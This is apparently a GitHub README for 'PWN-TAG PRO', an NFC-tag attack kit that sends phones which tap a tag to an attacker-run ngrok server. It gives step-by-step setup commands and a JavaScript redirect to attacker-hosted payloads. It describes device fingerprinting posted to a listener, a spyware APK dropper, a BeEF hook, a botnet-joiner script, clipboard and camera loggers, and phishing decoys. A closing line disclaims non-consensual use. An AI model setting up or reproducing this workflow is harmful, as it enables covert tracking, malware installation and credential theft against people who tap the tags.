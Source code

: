 # PWN-TAG PRO  
_Use with paid ngrok accounts — full zero-click payload delivery_
---
# There are 2 branches in this repository:

-the main branch is for no zero click payload 
delivery due to no paid ngrok accout.

and the pwn_tag_pro branch allows for android zero click payload delivery with paid ngrok account. 

MAKE SURE YOU ARE IN THE RIGHT BRANCH OF THE REPOSITORY BEFORE PROCEEDING. toggle to switch branches found above. 
---

_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

##  What You Need

*  NFC tag stickers (~$10 for 25):  
  https://a.co/d/gl2XRV8

*  NFC writer app (free):  
  https://apps.apple.com/app/id1252962749

*  Debian-based Linux system
  
*  [ngrok account](https://ngrok.com/) with paid plan (static subdomain required)

---

##  Branches

| Branch       | Purpose                                                                 |
|--------------|-------------------------------------------------------------------------|
| `main`       | Free-tier version using randomized ngrok URLs (tap + browser confirm)   |
| `ngrok-pro`  | Paid ngrok version with reserved domains → **zero-click payloads**      |

---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
````

Switch to the pro branch:

```bash
git checkout ngrok-pro
```

Install Python dependencies:

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask --break-system-packages
```

---

##  ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Authenticate your account:

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```

Reserve a static domain like `pwn-tag.ngrok.app` inside your ngrok dashboard.

---

##  Usage (2 Terminal Workflow)

### Terminal 1 — Start Flask Payload + Listener Server

```bash
python3 flask_server.py
```

 This now:

* Serves all payloads (HTML, APK, etc.)
* Handles `/testlog`, `/camlog`, `/cliplog`, etc.
* Runs on port `8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http --domain=pwn-tag.ngrok.app 8080
```

 You’re now live at:

```
https://pwn-tag.ngrok.app
```

---

##  Write Your NFC Tag

In your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap to write

Now when someone taps the tag:

* `test_shell.html` loads
* Device fingerprint is POSTed to your listener
* Redirect triggers to any final payload

---

##  Payload Options (Examples)

| Payload               | Path                       | Description                                                |
| --------------------- | -------------------------- | ---------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint, then redirects to real payload           |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads BEEF hook (must run BEEF server separately)          |
| **APK Dropper**       | `payloads/spy.apk`         | Sends APK file directly to Android users                   |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue botnet join behavior — JS beacon or loader |

---

##  Swapping Payloads

Edit this in `payloads/test_shell.html`:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/YOUR_PAYLOAD_HERE";
```

Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 You do **not** need to reprogram your NFC tag if you’re using a static domain.

---

##  Pro Tips

*  Make multiple redirectors: `redirect_to_apk.html`, `redirect_to_bot.html`, etc.
*  Replace `index.html` with a 403 decoy, fake update screen, or login clone
*  Add geolocation or IP info: use `fetch('https://ipinfo.io/json')`
*  Chain with `clipboard.js`, `camlog`, or `result.js` for layered payloads
*  With static ngrok domains, your tags stay valid forever — just update server logic

---

## Ethical Usage

This tool is intended for **educational use, red team simulation, and defense research only.**
Do not deploy it against real targets without consent. You are responsible for your actions.

